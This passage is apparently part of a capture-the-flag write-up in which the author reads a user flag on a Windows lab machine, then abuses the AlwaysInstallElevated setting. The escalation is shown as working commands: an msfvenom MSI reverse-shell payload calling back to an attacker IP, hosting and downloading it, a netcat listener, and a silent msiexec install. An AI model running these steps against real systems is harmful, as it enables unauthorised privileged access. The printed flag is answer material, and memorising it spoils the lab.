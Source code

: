 We got user shell. Lets switch it to powershell and read the user flag.

```
PS C:\> Get-content Users/phoebe/Desktop/user.txt
51e24fa8a4cb7186857e1d82ad042eab
```

Let’s run WinPeas and find any possible escalation points/paths.

```
[+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

Admin has enabled “alwaysinstallelevated” feature from registry. We can take advantage of this to gain system shell.

[Always Install Elevated](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path)

For this we can use metasploit exploit module, but I’d like to do this manually.

[Windows AlwaysInstallElevated MSI](https://www.rapid7.com/db/modules/exploit/windows/local/always_install_elevated/)

First we create a MSI file with reverse shell payload using Msfvenom.

```
⛩\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.36 LPORT=8001 -f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
```

We host this file and download on target machine.

```
⛩\> sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
PS C:\Users\Phoebe\desktop> Invoke-WebRequest -Uri 'http://10.10.14.36/rev.msi' -OutFile rev.msi
0.14.36/rev.msi' -OutFile rev.msi
```

Now setup a netcat listener and execute that MSI file.

```
⛩\> nc -lvnp 8001
listening on [any] 8001 ...
```

```
PS C:\Users\Phoebe\desktop> msiexec /quiet /i rev.msi
```
